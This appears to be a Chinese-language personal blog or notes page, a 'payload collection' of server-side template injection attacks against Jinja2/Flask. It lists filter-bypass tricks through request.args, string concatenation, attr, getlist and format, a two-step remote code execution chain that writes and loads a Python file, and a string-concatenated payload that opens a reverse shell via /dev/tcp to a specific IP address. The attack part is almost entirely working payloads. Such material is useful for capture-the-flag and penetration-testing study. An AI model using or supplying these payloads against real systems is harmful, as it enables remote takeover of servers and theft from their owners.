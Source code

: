 ```yaml
---
title: ssti
date: 2018-07-17 15:09:17
tags:
---
```


## payload大全

####  bypass 各种字符串

1. 利用request.args

```
{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```

2. 利用字符串拼接

```python
{{request['__cla'+'ss__']['__m'+'ro__'][9]['__subcla'+'sses__']()[230]('''/bin/sh -c 
'l'''+'''s '''+chr(62)+'''& /dev/tcp/123.207.90.143/2333 0'''+chr(62)+'''&1 ''',shell=True)}}
```

3. 利用各种编码

   > "MTIzCg==".decode("base64")

4. 利用attr

```python
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
```

```
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

#### bypass "[" 和 "]"

1. 利用 attr

```
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
```

2. 进阶版 利用.getlist

```
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

#### bypassing "|join"

1. 利用format

```
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

#### FinalRce:

第一步:

```
http://localhost:5000/?exploit={%set a,b,c,d,e,f,g,h,i = request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337
```

第二步:

```
http://localhost:5000/?exploit={%set a,b,c,d,e,f,g,h,i = request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)|attr((request.args.usc*2,request.args.mro,request.args.usc*2)|join)%}{{(i|attr((request.args.usc*2,request.args.subc,request.args.usc*2)|join)()).pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&class=class&mro=mro&subc=subclasses&usc=_&file=/tmp/foo.py&write=w&payload=print+1337
```

#### Accessing parameters

In most examples we used request.args to access GET parameters, but there are other dictionaries that can be populated with custom values:

* GET: request.args
* Cookies: request.cookies
* Headers: request.headers
* Environment: request.environ
* Values: request.values

The following notations can be used to access attributes of an object:

* request.__class__
* request["__class__"]
* request|attr("__class__")

Elements of arrays can be accessed with:

* array[0]
* array.pop(0)

#### import

{% import module %} – Allows you to import python modules.

Example: {% import subprocess %}

That’s all we need to craft an exploit code.

{% import os %}{{ os.popen("whoami").read() }}